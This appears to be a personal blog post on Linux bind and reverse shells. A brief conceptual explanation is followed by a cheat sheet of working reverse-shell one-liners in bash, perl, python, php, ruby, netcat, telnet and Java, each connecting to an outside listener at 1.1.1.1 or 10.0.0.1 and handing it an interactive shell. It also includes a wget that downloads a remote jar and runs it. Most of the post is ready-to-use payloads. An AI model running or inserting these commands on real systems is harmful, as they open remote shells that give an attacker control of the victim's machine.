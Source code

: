 ```yaml
---
title: Linux - reverse shell & Bind shell
date: 2020-11-01 11:11:11 -0400
categories: [Linux, Sysadmin]
tags: [Linux, Sysadmin]
math: true
image: 
---
```


[toc]

---

# Bind shell

Bind shell 
- attacker's machine acts as a client 
- victim's machine acts as a server opening up a communication port on the victim and waiting for the client to connect to it 
- and then attacker issue commands that will be remotely executed on the victim's machine. 

> This would be only possible if the victim's machine has a public IP and is accessible over the internet (disregarding all firewall etc. for the sake of brevity).


what if the victim's machine is NATed and hence not directly reachable ?
- attacker's machine is reachable. 
- So attacker open a server and let the victim connect to him. 
- This is what a reverse shell is. 

---

# reverse shell

Reverse Shell 
- attacker's machine (has a public IP and is reachable over the internet) acts as a server. 
- It opens a communication channel on a port and waits for incoming connections. 
- Victim's machine acts as a client and initiates a connection to the attacker's listening server. 

Open two tabs in your terminal.
1. open TCP port 8080 and wait for a connection:
2. `nc localhost -lp 8080`
3. Open an interactive shell, and redirect the IO streams to a TCP socket:
4. `bash -i >& /dev/tcp/localhost/8080 0>&1`


```bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1;

# bash -i "If the -i option is present, the shell is interactive."

# >& "redirects both, stdout and stderr to the specified target."

# (argument for >&) /dev/tcp/localhost/8080 is a TCP client connection to localhost:8080.

# 0>&1 redirect file descriptor 0 (stdin) to fd 1 (stdout), hence the opened TCP socket is used to read input.

```

perl shell

```perl
perl -e 'use Socket;$i="1.1.1.1";$p=10086;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};';
```

python shell

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",10086));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

php shell

```php
php -r '$sock=fsockopen("1.1.1.1",10086);exec("/bin/sh -i <&3 >&3 2>&3");';
```

ruby shell

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","10086");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';
```

nc shell

```bash
nc -c /bin/sh 1.1.1.1 10086;
```

telnet shell

```
telnet 1.1.1.1 10086 | /bin/bash | telnet 1.1.1.1 10087; # Remember to listen on your machine also on port 4445/tcp

127.0.0.1; mknod test p ; telnet 1.1.1.1 10086 0<test | /bin/bash 1>test;
```

java jar shell

```java
wget http://1.1.1.1:9999/revs.jar -O /tmp/revs1.jar;

java -jar /tmp/revs1.jar;

import java.io.IOException;    
public class ReverseShell {    
    public static void main(String[] args) throws IOException, InterruptedException {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/10086;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```


---

ref
- [example](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- [2](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

.